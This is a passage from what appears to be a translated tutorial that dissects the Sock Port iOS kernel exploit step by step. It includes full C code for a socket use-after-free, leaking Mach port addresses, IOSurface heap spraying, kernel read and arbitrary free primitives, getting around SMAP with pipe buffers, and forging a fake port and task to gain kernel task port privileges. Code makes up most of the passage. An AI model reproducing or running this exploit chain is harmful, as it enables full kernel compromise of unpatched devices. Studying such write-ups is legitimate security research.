    mach_msg_ool_ports_descriptor_t ool_ports;
};

int get_socket() {
    int sock = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);
    if (sock < 0) {
        printf("[-] Can't get socket, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    // allow setsockopt() after disconnect()
    struct so_np_extensions sonpx = {.npx_flags = SONPX_SETOPTSHUT, .npx_mask = SONPX_SETOPTSHUT};
    int ret = setsockopt(sock, SOL_SOCKET, SO_NP_EXTENSIONS, &sonpx, sizeof(sonpx));
    if (ret) {
        printf("[-] setsockopt() failed, error %d (%s)\n", errno, strerror(errno));
        return -1;
    }
    
    return sock;
}

// utilities to manipulate sockets
int set_minmtu(int sock, int *minmtu) {
    return setsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, sizeof(*minmtu));
}

// free the pktopts struct of the socket to get ready for UAF
int free_socket_options(int sock) {
    return disconnectx(sock, 0, 0);
}

// return a socket ready for UAF
int get_socket_with_dangling_options() {
    int socket = get_socket();
    
    int minmtu = -1;
    set_minmtu(socket, &minmtu);
    
    free_socket_options(socket);
    
    return socket;
}

// from Ian Beer. make a kernel allocation with the kernel address of 'target_port', 'count' times
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}

int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}

// first primitive: leak the kernel address of a mach port
uint64_t find_port_via_uaf(mach_port_t port, int disposition) {
    // here we use the uaf as an info leak
    int sock = get_socket_with_dangling_options();
    
    for (int i = 0; i < 0x10000; i++) {
        // since the UAFd field is 192 bytes, we need 192/sizeof(uint64_t) pointers
        mach_port_t p = fill_kalloc_with_port_pointer(port, 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
        
        int mtu;
        int pref;
        get_minmtu(sock, &mtu); // this is like doing rk32(options + 180);
        get_prefertempaddr(sock, &pref); // this like rk32(options + 184);
        
        // since we wrote 192/sizeof(uint64_t) pointers, reading like this would give us the second half of rk64(options + 184) and the fist half of rk64(options + 176)
        
        /*  from a hex dump:
         
         (lldb) p/x HexDump(options, 192)
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
         ...
         XX XX XX XX F0 FF FF FF  XX XX XX XX F0 FF FF FF  |  ................
                    |-----------||-----------|
                     minmtu here prefertempaddr here
         */
        
        // the ANDing here is done because for some reason stuff got wrong. say pref = 0xdeadbeef and mtu = 0, ptr would come up as 0xffffffffdeadbeef instead of 0x00000000deadbeef. I spent a day figuring out what was messing things up
        
        uint64_t ptr = (((uint64_t)mtu << 32) & 0xffffffff00000000) | ((uint64_t)pref & 0x00000000ffffffff);
        
        if (mtu >= 0xffffff00 && mtu != 0xffffffff && pref != 0xdeadbeef) {
            mach_port_destroy(mach_task_self(), p);
            close(sock);
            return ptr;
        }
        mach_port_destroy(mach_task_self(), p);
    }
    
    // close that socket.
    close(sock);
    return 0;
}

int main(int argc, char *argv[], char *envp[]) {
    // IOSurface_init();

    uint64_t self_port_addr = find_port_via_uaf(mach_task_self(), MACH_MSG_TYPE_COPY_SEND);
    INFO("our task port: 0x%llx\n", self_port_addr);

    return 0;
}
```

## Using OSUnserializeBinary Format for IOSurface Heap Spraying

Just as we performed Port Address Spraying based on OOL Message earlier, this time I will introduce a heap spraying method based on IOSurface.

With this method, you can spray arbitrary data to a specified location in the kernel.

Briefly about IOSurface:

IOSurface is a kernel extension used for sharing graphic buffers between processes. It is an object allocated in kernel memory space, mainly used for graphic processing tasks that need to efficiently share large amounts of graphic data with the kernel.

Because it is allocated in kernel memory, kernel heap spraying is possible.

Let's look again at the ip6_pktopts structure for the dangling `in6p_outputopts` field.

```c
struct ip6_pktopts
{
  mbuf *ip6po_m;
  int ip6po_hlim;
  **in6_pktinfo *ip6po_pktinfo;  // Used as the address we want to read **
  ip6po_nhinfo ip6po_nhinfo;
  ip6_hbh *ip6po_hbh;
  ip6_dest *ip6po_dest1;
  ip6po_rhinfo ip6po_rhinfo;
  ip6_dest *ip6po_dest2;
  int ip6po_tclass;
  **int ip6po_minmtu;       // Used as a flag bit **
  int ip6po_prefer_tempaddr;
  int ip6po_flags;
};

```

The idea is to first forge the `in6p_outputopts` structure, **use the `minmtu` member as a flag bit to check if the dangling pointer was used**, and **put the address we want to read into the pointer structure `in6_pktinfo`**.

Here is the code for the idea:

```c
// create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
```

Then, use Socket UAF to create a large number of freed `in6p_outputopts` areas, and spray the forged data into the Socket UAF area.

Afterwards, use the `getsockopt` function to read `minmtu` to check if spraying succeeded, and if successful, use `getsockopt` to read the `ip6po_pktinfo` structure.


Since the size of `ip6po_pktinfo` is 0x14=20 bytes, you can read 20 bytes of data from the target address at once using this method.

### IOSurface-related functions provided by the Sock Port exploit

The `spray_IOSurface` function only needs the data and size to spray. This function is a wrapper for `IOSurface_spray_with_gc`, providing basic settings for the generated `OSArray`.

`array_count = 32` means 32 spray arrays are created for a total of 32 heap sprays, and `array_length = 256` means each array contains 256 spray data items.

```c
bool
IOSurface_spray_with_gc(uint32_t array_count, uint32_t array_length,
        void *data, uint32_t data_size,
        void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    return IOSurface_spray_with_gc_internal(array_count, array_length, 0,
            data, data_size, callback);
}

int spray_IOSurface(void *data, size_t size) {
    return !IOSurface_spray_with_gc(32, 256, data, (uint32_t)size, NULL);
}
```

### Principle of OSUnserializeBinary XML Spraying

The principle of OSUnserializeBinary XML Spraying is explained in 7 key steps.

```c
static bool
IOSurface_spray_with_gc_internal(uint32_t array_count, uint32_t array_length, uint32_t extra_count, void *data, uint32_t data_size, void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    // 1. Create IOSurfaceRootClient object to communicate with the kernel
    bool ok = IOSurface_init();
    if (!ok) {
        return 0;
    }
    
    // 2. In this usage, extra_count = 0, so it can be ignored
    uint32_t current_array_length = array_length + (extra_count > 0 ? 1 : 0);
    
    // 3. Calculate the number of XML nodes needed for spraying data
    size_t xml_units_per_data = xml_units_for_data_size(data_size);
    
    // 4. Several 1s here mean fixed XML nodes other than spraying data
    size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
    
    // 5. Build the args struct to be passed to the kernel, including the XML to be created and other info
    struct IOSurfaceValueArgs *args;
    size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
    args = malloc(args_size);
    assert(args != 0);
    args->surface_id = IOSurface_id;
    
    // 6. Each XML contains an OSArray for spraying data
    uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
    assert(xml_data != NULL);
    uint32_t *key;
    
    // 7. XML construction
    size_t xml_size = serialize_IOSurface_data_array(args->xml,
            current_array_length, data_size, xml_data, &key);
    assert(xml_size == xml_units * sizeof(args->xml[0]));
    // ...
```

Step 7 "XML construction" builds an `OSArray` containing 256 `OSString` items.

Here, `OSString` is the serialized and sprayed data, and when sent to the kernel buffer via `IOSurfaceRootClient` in XML form, the kernel allocates heap for these `OSString` items.

Because `OSString` is the data we want to spray, this process allows us to spray arbitrary data into the kernel heap.

Each node of the XML object for IOSurface transmission can be represented by a single `uint32`, called an XML unit.

```c
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        **uint32_t xml[0];    //** Each node of the XML object
        char string[0];
    };
};
```

Since the input length must be specified when calling IOSurface, it is important to accurately calculate the XML size for each spray round.

Step 3 "Calculating the number of XML nodes needed for spraying data" is as follows:

Serialized data is represented as OSString in the kernel, so the last byte is used as `\0`. The actual data size is `size - 1`.

The formula is then written as `(actual_size + n - 1) / n`, which is the typical ceiling operation — it represents dividing `actual_size` by n (in this case 4, the XML unit size) and rounding up.

Finally, the number of XML units occupied by each Spraying Data is calculated and stored in `xml_units_per_data`.

Therefore, the following code is used.

```c
/*
 * xml_units_for_data_size
 *
 * Description:
 * 	Return the number of XML units needed to store the given size of data in an OSString.
 */
static size_t
xml_units_for_data_size(size_t data_size) {
    return ((data_size - 1) + sizeof(uint32_t) - 1) / sizeof(uint32_t);
}
```

Step 4: "Several 1s here mean fixed XML nodes other than spraying data" is as follows:

Based on `xml_units_per_data`, the total number of XML units is calculated.

`(1 + xml_units_per_data) * current_array_length` means repeating the OSString Header + Data structure `current_array_length` times, and the three **`1`**s before and after are for additional descriptive XML units.

```c
size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
```

Step 6 prepares an array of pointers to the OSString Child Unit Headers in the XML, which is used during XML construction.

This array is used during XML construction: it stores the addresses of `current_array_length` OSString Header Units and is later referenced when copying the Spraying Data into the XML.

```c
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
```

The key part is step 7, where `serialize_IOSurface_data_array` is called. Here, `args->xml` is a pointer to the XML units, pointing to one XML Header Unit.

```c
#if 0
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        uint32_t xml[0];
        char string[0];
    };
};
#endif
struct IOSurfaceValueArgs *args;
size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
args = malloc(args_size);
// 7. XML 구성
uint32_t *key;
uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
size_t xml_size = serialize_IOSurface_data_array(args->xml, current_array_length, data_size, xml_data, &key);
```

With the preparations complete, the subsequent calculations are not complicated.
The code below performs the process of sequentially linking the XML linked-list.

```c
static size_t
serialize_IOSurface_data_array(uint32_t *xml0, uint32_t array_length, uint32_t data_size, uint32_t **xml_data, uint32_t **key) {
    uint32_t *xml = xml0;
    *xml++ = kOSSerializeBinarySignature;
    *xml++ = kOSSerializeArray | 2 | kOSSerializeEndCollection;
    *xml++ = kOSSerializeArray | array_length;
    for (size_t i = 0; i < array_length; i++) {
        uint32_t flags = (i == array_length - 1 ? kOSSerializeEndCollection : 0);
        *xml++ = kOSSerializeData | (data_size - 1) | flags;
        xml_data[i] = xml;
        xml += xml_units_for_data_size(data_size);
    }
    *xml++ = kOSSerializeSymbol | sizeof(uint32_t) + 1 | kOSSerializeEndCollection;
    *key = xml++; // This will be filled in on each array loop.
    *xml++ = 0;	// Null-terminate the symbol.
    return (xml - xml0) * sizeof(*xml);
}
```

`xml0` is the current XML Header Units, and the variable `xml` is defined as a cursor to construct the XML step by step.
Each XML Unit is represented by a single `uint32`,

and, for example, the first 3 entries of the header are:

```c
*xml++ = kOSSerializeBinarySignature;
*xml++ = kOSSerializeArray | 2 | kOSSerializeEndCollection;
*xml++ = kOSSerializeArray | array_length;
```

This is equivalent to declaring the following XML structure.

```xml
<kOSSerializeBinarySignature />
<kOSSerializeArray>2</kOSSerializeArray>
<kOSSerializeArray length=${array_length}>
```

Then, in the loop, fill the OSArray with `array_length` OSStrings, saving their XML Unit addresses in the `xml_data` pointer array.

```c
for (size_t i = 0; i < array_length; i++) {
    uint32_t flags = (i == array_length - 1 ? kOSSerializeEndCollection : 0);
    *xml++ = kOSSerializeData | (data_size - 1) | flags;
    xml_data[i] = xml;
    xml += xml_units_for_data_size(data_size);
}
```

This builds the following XML:

```xml
<kOSSerializeBinarySignature />
<kOSSerializeArray>2</kOSSerializeArray>
<kOSSerializeArray length=${array_length}>
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[0] -->
    </kOSSerializeData>
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[1] -->
    </kOSSerializeData>
    <!-- ... -->
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[array_length - 1] -->
    </kOSSerializeData>
</kOSSerializeArray>
```

Finally, the tail part of the XML Units is filled:

```c
*xml++ = kOSSerializeSymbol | sizeof(uint32_t) + 1 | kOSSerializeEndCollection;
*key = xml++; // This will be filled in on each array loop.
*xml++ = 0; // Null-terminate the symbol.
```

This includes three units:

```xml
<kOSSerializeSymbol>${sizeof(uint32_t) + 1}</kOSSerializeSymbol>
<key>${key}</key>
0
```

This supports the `+3` at the end of the XML Units calculation, so the final XML is:

```xml
<kOSSerializeBinarySignature />
<kOSSerializeArray>2</kOSSerializeArray>
<kOSSerializeArray length=${array_length}>
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[0] -->
    </kOSSerializeData>
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[1] -->
    </kOSSerializeData>
    <!-- ... -->
    <kOSSerializeData length=${data_size - 1}>
        <!-- xml_data[array_length - 1] -->
    </kOSSerializeData>
</kOSSerializeArray>
<kOSSerializeSymbol>${sizeof(uint32_t) + 1}</kOSSerializeSymbol>
<key>${key}</key>
0
```

At this point, the XML structure is fully constructed, and all that remains is to fill the xml_data placeholders with the spraying data and the key with an identifier.

### **Data Assembly**

The following code completes data filling and transmission to the kernel, and is easy to understand based on the above discussion.

Through the three key steps shown in the code, the assembled XML is sent to the kernel framebuffer, and since the kernel allocates memory for the OSString inside, heap spraying is completed.

```c
// Keep track of when we need to do GC.
static uint32_t total_arrays = 0;
size_t sprayed = 0;
size_t next_gc_step = 0;
// Loop through the arrays.
for (uint32_t array_id = 0; array_id < array_count; array_id++) {
    // If we've crossed the GC sleep boundary, sleep for a bit and schedule the
    // next one.
    // Now build the array and its elements.
    // 1. Generate a unique identifier and fill the key
    *key = base255_encode(total_arrays + array_id);
    for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
        // Copy in the data to the appropriate slot.
        // 2. Fill the data into the OSString
        memcpy(xml_data[data_id], data, data_size - 1);
    }
    
    // 3. Send data to the kernel
    // Finally set the array in the surface.
    ok = IOSurface_set_value(args, args_size);
    if (!ok) {
        free(args);
        free(xml_data);
        return false;
    }
    if (ok) {
        sprayed += data_size * current_array_length;
    }
}
```

When sending data to the kernel, the data is as follows.

To see at a glance,
I wrote code to dump the data just before the IOSurface_set_value call:

```c
void dump_xml_data(void *data, size_t length) {
    static int count = 0;
    char filename[32];
    snprintf(filename, sizeof(filename), "xml_data_dump_%d.bin", ++count);

    FILE *fp = fopen(filename, "wb");
    if (!fp) {
        perror("fopen");
        return;
    }
    fwrite(data, 1, length, fp);
    fclose(fp);
}

//XXX: Dump
dump_xml_data(args, args_size);

// Finally set the array in the surface.
ok = IOSurface_set_value(args, args_size);
```

As a result, after creating 32 spray arrays,
the data sent for the first spray can be shown as below.

255 OSArrays are included, and inside each OSArray is the forged 192-byte `in6p_outputopts`.

At the bottom, the base255_encode function is performed, and depending on the round,
the parameter value is 0, 1, ... 31.


### **Implementing kread using IOSurface Heap Spraying**

After creating multiple dangling `in6p_outputopts`,
spray with the forged `in6p_outputopts` so that the forged data structure's `pktinfo` points to the address you want to read,
and use `minmtu` as an identifier for the IOSurface spray.

Then, based on `minmtu`, select the dangling `in6p_outputopts` area where spraying succeeded,
and use `getsockopt` to get the contents of the `pktinfo` structure.

Since the structure is 20 bytes, you can read 20 bytes of data from the specified kernel address.

```c
// second primitive: read 20 bytes from addr
void* read_20_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    
    // create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
    
    bool found = false;
    int found_at = -1;
    
    for (int i = 0; i < 20; i++) { // iterate through the sockets to find if we overwrote one
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));
        
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // found it!
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    
    free(fake_opts);
    
    if (!found) {
        printf("[-] Failed to read kernel\n");
        return 0;
    }
    
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    
    void *buf = malloc(sizeof(struct in6_pktinfo));
    get_pktinfo(sockets[found_at], (struct in6_pktinfo *)buf);
    close(sockets[found_at]);
    
    return buf;
}
```

## Implementing Kernel Read/Write via Fake Port

To summarize the overall flow:

1. Leak your own `self_port_address` to obtain:
   - `self_task_address`
   - `ipc_space_kernel`
2. Use the `pipe` function to allocate a pair of pipe handles (`fds`) for inter-process communication.
   - Using the proc structure info included in `self_task_address`, you can find the actual address of the pipe buffer allocated in the kernel (`pipe_buffer_address`).
   - `pipe` creates a pair of file descriptors for inter-process read/write, and allocates a buffer in the kernel for read/write operations.
3. Combine the IOSurface spray technique with Socket UAF to free the buffer at `pipe_buffer_address`.
   - This allows you to obtain a freed pipe buffer area.
4. Create a Mach port with send rights, and use OOL message spraying to inject these ports into the freed pipe buffer.
   - The kernel recognizes this buffer as a valid port array.
5. Forge a fake port and fake task, and overwrite the first 8 bytes of the pipe buffer with the address of the fake port.
   - This gives you a controllable IPC port and task with send rights.
6. Receive the previously sent OOL message, and obtain the port array used for spraying.
   - At this point, `ports[0]` is replaced with your fake port, giving you full control.
7. Manipulate this fake port to obtain a stable kernel read primitive.
   - Use this to enumerate kernel processes and obtain the kernel's `vm_map`.
8. Assign the obtained kernel `vm_map` to the fake port, making it a full kernel task port and granting tfp0 privileges.

The exploit code used here is designed to bypass SMAP (Supervisor Mode Access Prevention), which restricts user-space access to kernel memory.

Let's look at how the pipe function is used to bypass SMAP.

When a pipe is created, a buffer is allocated in kernel space for inter-process memory sharing.

In user mode, only the fd handle is obtained, and the buffer address corresponding to the fd is recorded in the task port.
With the leaked task port and the previously explained kernel read primitive, you can obtain the buffer address in the kernel.

First, create a buffer of size `0x10000` in the kernel.
What you should note here is the fd's read/write behavior: each time you perform a `write`, the cursor moves backward, and each time you perform a `read`, the cursor moves forward.

In this case, we first create the kernel buffer with a single balanced read/write, then write 8 bytes so that we can later easily read the first port (our fake port).

The main code is as follows.

```c
// pipe
// bsd/kern/sys_pipe.c:393
int *
create_pipes(void) {
    // Allocate our initial array.
    size_t capacity = 1;
    int *pipefds = calloc(2 * capacity, sizeof(int));
    // Create as many pipes as we can.
    size_t count = 0;

    // First create our pipe fds.
    int fds[2] = { -1, -1 };
    int error = pipe(fds);
    
    // Unfortunately pipe() seems to return success with invalid fds once we've
    // exhausted the file limit. Check for this.
    if (error != 0 || fds[0] < 0 || fds[1] < 0) {
        pipe_close(fds);
        exit(1);
    }
    // Mark the write-end as nonblocking.
    //set_nonblock(fds[1]);
    // Store the fds.
    pipefds[0] = fds[0];
    pipefds[1] = fds[1];

    // assert(count == capacity && "can't alloc enough pipe fds");
    // Truncate the array to the smaller size.
    // int *new_pipefds = realloc(pipefds, 2 * count * sizeof(int));
    // assert(new_pipefds != NULL);
    // Return the count and the array.
    // *pipe_count = count;
    return pipefds;
}

...

// here we'll create a pair of pipes (4 file descriptors in total)
// first pipe, used to overwrite a port pointer in a mach message
size_t pipebuf_size = 0x10000;
pipefds = create_pipes();

// make the buffer of the first pipe 0x10000 bytes (this could be other sizes, but know that kernel does some calculations on how big this gets, i.e. when I made the buffer 20 bytes, it'd still go to kalloc.512
pipebuf = (uint8_t *)malloc(pipebuf_size);
memset(pipebuf, 0, pipebuf_size); 

write(pipefds[1], pipebuf, pipebuf_size); // do write() to allocate the buffer on the kernel
read(pipefds[0], pipebuf, pipebuf_size); // do read() to reset buffer position
write(pipefds[1], pipebuf, 8); // write 8 bytes so later we can read the first 8 bytes (used to verify if spraying worked)
```

With the task port and fd handle, you can easily obtain the pipe buffer address.

Study the xnu source code to understand how structures are traversed in order, starting from the `ipc_port` structure. The offset values for each structure can be confirmed by attaching `lldb` to the kernel included with the KDK package.

The method for obtaining the address of the pipe buffer in kernel space is as follows.

```c

    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);

#define rk64_check(addr) ({ uint64_t r; r = rk64_via_uaf(addr); if (!r) { usleep(100); r = rk64_via_uaf(addr); if (!r) { printf("[-] failed to read from '"#addr"'\n");}}; r;})

    uint64_t task = rk64_check(self_port_addr + 0x68);  //p/x offsetof(struct ipc_port, kdata.kobject)
    uint64_t proc = rk64_check(task + 0x380);   //p/x offsetof(struct task, bsd_info)
    uint64_t p_fd = rk64_check(proc + 0xe8);   // p/x offsetof(struct proc, p_fd)
    uint64_t fd_ofiles = rk64_check(p_fd + 0x0);    //p/x offsetof(struct filedesc, fd_ofiles)
    
    uint64_t fproc = rk64_check(fd_ofiles + pipefds[0] * 8);
    uint64_t f_fglob = rk64_check(fproc + 0x8); //p/x offsetof(struct fileproc, f_fglob)
    uint64_t fg_data = rk64_check(f_fglob + 0x38);  //p/x offsetof(struct fileglob, fg_data)
    uint64_t pipe_buffer = rk64_check(fg_data + 0x10);  //p/x offsetof(struct pipebuf, buffer)
    INFO("pipe buffer: 0x%llx\n", pipe_buffer);
```

### Trying UAF on the Pipe Buffer

Our ultimate goal is to fully control a port, so we need to make the system allocate that port into a pipe buffer, which is an area we can control.

To achieve this, we will use a Socket UAF to free the pipe buffer, then spray Mach OOL Messages to fill that buffer with a valid port.

In a previous section, we described a Kernel Read technique using Socket UAF.
In fact, this method can also be used to implement arbitrary kernel memory freeing.

The difference from the `read_20_via_uaf` function is that, after a successful spray, we do not read the contents. Instead, we write a structure filled with zeros into `ip6po_pktinfo`. This causes the memory pointed to by `ip6po_pktinfo` to be freed.

Under normal understanding, when freeing the buffer pointed to by `ip6po_pktinfo`, its length should match the size of the `ip6po_pktinfo` structure. However, examining the kernel code shows that the FREE function here automatically refers to the size recorded in the zone header to determine the free length.
In other words, since the entire region pointed to by `ip6po_pktinfo` is freed, we can implement a free primitive capable of freeing an arbitrary-sized memory region.
The key kernel code is as follows:

```c
// bsd/netinet6/ip6_output.c:3233
void ip6_clearpktopts(struct ip6_pktopts *pktopt, int optname) {
    if (pktopt == NULL)
        return;
    
    if (optname == -1 || optname == IPV6_PKTINFO) {
        if (pktopt->ip6po_pktinfo)
            FREE(pktopt->ip6po_pktinfo, M_IP6OPT); // <-- free
        pktopt->ip6po_pktinfo = NULL;
    }
    // ...
```

FREE is a wrapper for `kfree_addr`, which internally gets the zone and size based on the address.

```c
// bsd/sys/malloc.h:289
#define FREE(addr, type) \
    _FREE((void *)addr, type)

// bsd/kern/kern_malloc.c:624
void
_FREE(
    void		*addr,
    int		type)
{
    if (type >= M_LAST)
        panic("_free TYPE");

    if (!addr)
        return; /* correct (convenient bsd kernel legacy) */

    kfree_addr(addr);
}

// osfmk/kern/kalloc.c:537
vm_size_t kfree_addr(void *addr) {
    vm_map_t map;
    vm_size_t size = 0;
    kern_return_t ret;
    zone_t z;
    
    size = zone_element_size(addr, &z); //
    if (size) {
        DTRACE_VM3(kfree, vm_size_t, -1, vm_size_t, z->elem_size, void*, addr);
        zfree(z, addr);
        return size;
    }
    // ...
```

Now, let's free the pipe buffer.

Using the primitive mentioned above, you can easily free the pipe buffer.

```c
// third primitive: free a kalloced object at an arbitrary address
int free_via_uaf(uint64_t addr) {
    // create a bunch of sockets
    int sockets[128];
    for (int i = 0; i < 128; i++) {
        sockets[i] = get_socket_with_dangling_options();
    }
    
    // create a fake struct with our dangling port address as its pktinfo
    struct ip6_pktopts *fake_opts = calloc(1, sizeof(struct ip6_pktopts));
    fake_opts->ip6po_minmtu = 0x41424344; // give a number we can recognize
    *(uint32_t*)((uint64_t)fake_opts + 164) = 0x41424344; // on iOS 10, offset is different
    fake_opts->ip6po_pktinfo = (struct in6_pktinfo*)addr;
    
    bool found = false;
    int found_at = -1;
    
    for (int i = 0; i < 20; i++) { // iterate through the sockets to find if we overwrote one
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));
        
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // found it!
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    
    free(fake_opts);
    
    if (!found) {
        printf("[-] failed to setup freeing primitive\n");
        return -1;
    }
    
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    struct in6_pktinfo *buf = malloc(sizeof(struct in6_pktinfo));
    memset(buf, 0, sizeof(struct in6_pktinfo));
    
    int ret = set_pktinfo(sockets[found_at], buf);
    free(buf);
    return ret;
}
```

Next, we spray Mach OOL Messages.

To obtain a legitimate and controllable `ipc_port`, we perform a heap spray using Mach OOL (Out-Of-Line) messages, and it is essential to record the `remote port` at this stage.

This is because, when receiving the message later, we need to retrieve the handle of the port we replaced.

Here, we use messages of the same size as the pipe buffer (`0x10000`) so that the port address is placed exactly into the pipe buffer.

So, how can we check if our spray was successful?
First, obtain the address of the target port, then read 8 bytes from the pipe buffer. (Since we previously wrote 8 bytes there, the value read should be the address of the first port.)

If the spray succeeded, the target port address and the address read from the pipe buffer should match.

```c
// create a new port, this one we'll use for tfp0
    mach_port_t target = new_port();

// reallocate it while filling it with a mach message containing send rights to our target port
    mach_port_t p = MACH_PORT_NULL;
    for (int i = 0; i < 10000; i++) {
        
        // pipe is 0x10000 bytes so make 0x10000/8 pointers and save result as we'll use later
        p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
        
        // check if spraying worked by reading first 8 bytes
        uint64_t addr;
        read(pipefds[0], &addr, 8);
        if (addr == target_addr) { // if we see the address of our port, it worked
            break;
        }
        write(pipefds[1], &addr, 8); // reset buffer position
        
        mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
        p = MACH_PORT_NULL;
    }
```

### Setting Up a Fake Port and Fake Task

What we previously filled into the pipe buffer is still just a user-mode port without `tfp0` privileges.
We need to modify this port to gain `tfp0` privileges.

However, due to the presence of SMAP, our forged (fake) port and fake task must be copied into the kernel via a pipe in order to be accessed normally from the kernel. Therefore, we create one more new pipe.

Looking at the source code of the Sock Port exploit, this part is crafted very precisely — it allocates a contiguous region in the kernel that can hold both the port and the task structures, and sets `port->task` to point to the task region right next to it.

In an SMAP environment, any address referenced by the kernel must not belong to userland, so the `task` is made to point to space inside the pipe buffer.

This way, we can control both the port and the task in a single contiguous region while also bypassing SMAP.

The key code is as follows.

```c
// second pipe, used for our fake port
    int port_fds[2] = {-1, -1};
    kern_return_t ret = pipe(port_fds);
    if (ret) {
        printf("[-] failed to create pipe\n");
        goto err;
    }

    // create fake port and fake task, put fake_task right after fakeport
    kport_t *fakeport = malloc(sizeof(kport_t) + 0x600);
    ktask_t *fake_task = (ktask_t *)((uint64_t)fakeport + sizeof(kport_t));
    bzero((void *)fakeport, sizeof(kport_t) + 0x600);

    fake_task->ref_count = 0xff;
    
    fakeport->ip_bits = IO_BITS_ACTIVE | IKOT_TASK;
    fakeport->ip_references = 0xd00d;
    fakeport->ip_lock.type = 0x11;
    fakeport->ip_messages.port.receiver_name = 1;
    fakeport->ip_messages.port.msgcount = 0;
    fakeport->ip_messages.port.qlimit = MACH_PORT_QLIMIT_LARGE;
    fakeport->ip_messages.port.waitq.flags = mach_port_waitq_flags();
    fakeport->ip_srights = 99;
    fakeport->ip_kobject = 0;
    fakeport->ip_receiver = ipc_space_kernel;

    //SMAP
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);
    
    ...
    
    // align ip_kobject at our fake task, so the address of fake port + sizeof(kport_t)
